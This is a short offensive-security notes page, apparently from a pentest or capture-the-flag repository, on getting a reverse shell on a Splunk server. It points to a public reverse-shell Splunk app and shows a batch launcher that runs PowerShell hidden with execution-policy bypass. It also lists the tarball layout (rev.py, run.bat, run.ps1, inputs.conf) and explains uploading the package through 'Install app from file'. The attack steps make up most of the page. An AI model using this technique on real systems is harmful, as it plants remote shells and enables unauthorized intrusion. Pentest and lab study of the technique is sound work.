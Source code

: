 # splunk

## Enumeration

We can use https://github.com/0xjpuff/reverse_shell_splunk rev_shell, create a .bat file:

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

then create a tar:

```
tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose Install app from file and upload the application. On the Upload app page, click on browse, choose the tarball we created earlier and click Upload.